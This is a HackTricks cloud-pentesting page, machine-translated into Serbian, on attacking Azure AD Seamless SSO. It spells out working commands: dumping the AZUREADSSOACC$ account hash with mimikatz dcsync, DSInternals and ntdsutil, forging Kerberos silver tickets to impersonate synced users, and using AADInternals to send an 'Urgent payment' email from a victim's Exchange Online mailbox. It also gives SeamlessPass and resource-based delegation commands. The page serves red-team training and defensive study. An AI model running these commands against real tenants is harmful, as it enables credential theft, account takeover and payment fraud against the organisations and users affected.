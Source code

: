# Az - Seamless SSO

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) automatski **prijavljuje korisnike kada su na svojim korporativnim uređajima** povezanih na vašu korporativnu mrežu. Kada je omogućeno, **korisnici ne moraju da kucaju svoje lozinke da bi se prijavili na Azure AD**, i obično, čak ni da kucaju svoja korisnička imena. Ova funkcija omogućava vašim korisnicima lak pristup vašim aplikacijama zasnovanim na oblaku bez potrebe za dodatnim komponentama na lokaciji.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption><p><a href="https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works">https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works</a></p></figcaption></figure>

U suštini, Azure AD Seamless SSO **prijavljuje korisnike** kada su **na PC-u pridruženom lokalnoj domeni**.

Podržava ga i [**PHS (Password Hash Sync)**](phs-password-hash-sync.md) i [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md).

Desktop SSO koristi **Kerberos** za autentifikaciju. Kada je konfigurisan, Azure AD Connect kreira **račun računara nazvan AZUREADSSOACC`$`** u lokalnom AD-u. Lozinka računa `AZUREADSSOACC$` je **poslata u čistom tekstu Azure AD-u** tokom konfiguracije.

**Kerberos karte** su **enkriptovane** koristeći **NTHash (MD4)** lozinke, a Azure AD koristi poslatu lozinku za dekripciju karata.

**Azure AD** izlaže **krajnju tačku** (https://autologon.microsoftazuread-sso.com) koja prihvata Kerberos **karte**. Pregledač mašine pridružene domeni prosleđuje karte ovoj krajnjoj tački za SSO.

### On-prem -> cloud

**Lozinka** korisnika **`AZUREADSSOACC$` nikada se ne menja**. Stoga, administrator domena može kompromitovati **hash ovog računa**, a zatim ga koristiti za **kreiranje srebrnih karata** za povezivanje na Azure sa **bilo kojim lokalnim korisnikom koji je sinhronizovan**:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Sa hešom sada možete **generisati srebrne karte**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Da biste iskoristili srebrnu kartu, sledeći koraci treba da se izvrše:

1. **Pokrenite pregledač:** Treba pokrenuti Mozilla Firefox.
2. **Konfigurišite pregledač:**
* Idite na **`about:config`**.
* Postavite preferencu za [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) na navedene [vrednosti](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically):
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **Pristupite web aplikaciji:**
* Posetite web aplikaciju koja je integrisana sa AAD domenom organizacije. Uobičajen primer je [Office 365](https://portal.office.com/).
4. **Proces autentifikacije:**
* Na ekranu za prijavu, treba uneti korisničko ime, ostavljajući polje za lozinku prazno.
* Da biste nastavili, pritisnite TAB ili ENTER.

{% hint style="success" %}
Ovo ne zaobilazi MFA ako je omogućeno
{% endhint %}

#### Opcija 2 bez dcsync - SeamlessPass

Takođe je moguće izvršiti ovaj napad **bez dcsync napada** da biste bili diskretniji, kao što je objašnjeno u ovom blog postu [ovde](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/). Za to vam je potrebna samo jedna od sledećih stavki:

* **TGT kompromitovanog korisnika:** Čak i ako ga nemate, ali je korisnik kompromitovan, možete dobiti jedan koristeći trik lažne TGT delegacije implementiran u mnogim alatima kao što su [Kekeo](https://x.com/gentilkiwi/status/998219775485661184) i [Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9).
* **Zlatna karta**: Ako imate KRBTGT ključ, možete kreirati TGT koji vam je potreban za napadnutog korisnika.
* **NTLM hash ili AES ključ kompromitovanog korisnika:** SeamlessPass će komunicirati sa kontrolerom domena sa ovom informacijom da generiše TGT.
* **NTLM hash ili AES ključ AZUREADSSOACC$ naloga:** Sa ovom informacijom i SID-om korisnika koji napadate, moguće je kreirati servisnu kartu i autentifikovati se sa cloud-om (kao što je izvedeno u prethodnoj metodi).

Na kraju, sa TGT-om je moguće koristiti alat [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass) sa:

{% code overflow="wrap" %}
```
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_TGT>
```
{% endcode %}

Dalje informacije o podešavanju Firefoxa za rad sa seamless SSO mogu se [**pronaći u ovom blog postu**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/).

#### ~~Kreiranje Kerberos karata za korisnike koji koriste samo cloud~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Ako administratori Active Directory imaju pristup Azure AD Connect, mogu **postaviti SID za bilo kog cloud-korisnika**. Na ovaj način Kerberos **karte** mogu biti **kreirane i za korisnike koji koriste samo cloud**. Jedini zahtev je da SID bude ispravan [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)).

{% hint style="danger" %}
Promena SID-a korisnika koji koriste samo cloud je sada **blokirana od strane Microsoft-a**.\
Za informacije proverite [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem_admin/)
{% endhint %}

### On-prem -> Cloud putem Ograničene Delegacije na Bazi Resursa <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Svako ko može upravljati računima računara (`AZUREADSSOACC$`) u kontejneru ili OU u kojem se ovaj račun nalazi, može **konfigurisati ograničenu delegaciju na bazi resursa za račun i pristupiti mu**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## References

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem_admin/)
* [TR19: Ja sam u vašem oblaku, čitam e-mailove svih - hakovanje Azure AD putem Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
